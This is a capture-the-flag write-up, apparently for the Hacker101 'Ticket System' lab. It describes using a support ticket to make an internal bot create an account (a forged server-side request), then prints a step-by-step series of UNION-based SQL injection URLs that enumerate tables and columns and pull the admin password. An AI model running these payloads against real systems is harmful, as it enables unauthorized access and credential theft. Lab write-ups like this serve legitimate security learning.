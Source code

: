 # Ticket System

## 1. Flag 1

Tried XSS and SQL Injection on newTicket page, Tried hydra on live admin page didn't work.

Hint said live instance runs same code as demo instance. 

Went to demo instance, home page had creds admin/admin provided. Tried creating new user. 

Interestingly, upon submitting new user form a get request is called 

`http://35.227.24.107/30d7de82d2/newUser?username=test&password=test&password2=test` 

Tried changing the IP and instance ID with the productions ones. Didn't work. 

Went on and watched a Hacker101 video related to SSRF, 

and found a clue; the demo page home page said

> If you have any problems, put in a ticket on our official instance -- only the knowledgebase bot looks at the tickets submitted here.

Created new ticket with body containing just 

`http://localhost/newUser?username=test&password=test&password2=test` `

Went to login in page and tried test and test. Worked !

Flag inside the first ticket.

## 2. Flag 2

From the research during search of previous flag I had gather following information.

* DB name: level7
* Tables: tickets and users

User:

Columns: id, username, password | [USER, CURRENT_CONNECTIONS, TOTAL_CONNECTIONS TOTAL_CONNECTIONS] (db mgmt columns)

`http://35.227.24.107/30d7de82d2/ticket?id=5` is vulnerable to sql injection.

tried `http://35.227.24.107/30d7de82d2/ticket?id=6 union select 1,1,1` 

returned a page with 1 1 1 in reponse.

Ran 

```sql
http://35.227.24.107/30d7de82d2/ticket?id=6 union select (select database()),1,1
```

Returned **level7** in response.

Ran

```sql
http://35.227.24.107/30d7de82d2/ticket?id=6 union select (select database()),(select count(*) from information_schema.tables where table_schema="level7"),1
```

Retruned **2** 

Ran

```sql
http://35.227.24.107/30d7de82d2/ticket?id=6 union select (select database()),(select table_name from information_schema.tables where table_schema="level7" limit 0,1),1
```

Returned **tickets**

Ran

```sql
http://35.227.24.107/30d7de82d2/ticket?id=6 union select (select database()),(select table_name from information_schema.tables where table_schema="level7" limit 1,1),1
```

Returned **users**

Ran followings to get the column count and column names

```sql
http://35.227.24.107/30d7de82d2/ticket?id=6 union select (select database()),(select count(*) from information_schema.columns where table_name="users"),1
```

Returned **6**

Ran

```sql
http://35.227.24.107/30d7de82d2/ticket?id=6 union select (select database()),(select column_name from information_schema.columns where table_name="users" limit 0,1),1
```

Got **id**

```sql
http://35.227.24.107/30d7de82d2/ticket?id=6 union select (select database()),(select column_name from information_schema.columns where table_name="users" limit 1,1),1
```

Got **username**

```sql
http://35.227.24.107/30d7de82d2/ticket?id=6 union select (select database()),(select column_name from information_schema.columns where table_name="users" limit 2,1),1
```

Got **password**

Rest three columns where DB management related columns [USER, CURRENT_CONNECTIONS, TOTAL_CONNECTIONS TOTAL_CONNECTIONS] irrelevant to us.

Now tried reading the password for admin.

```sql
http://35.227.24.107/30d7de82d2/ticket?id=6 union select (select database()),(select password from users where username="admin"),1
```

Retured the **FLAG**


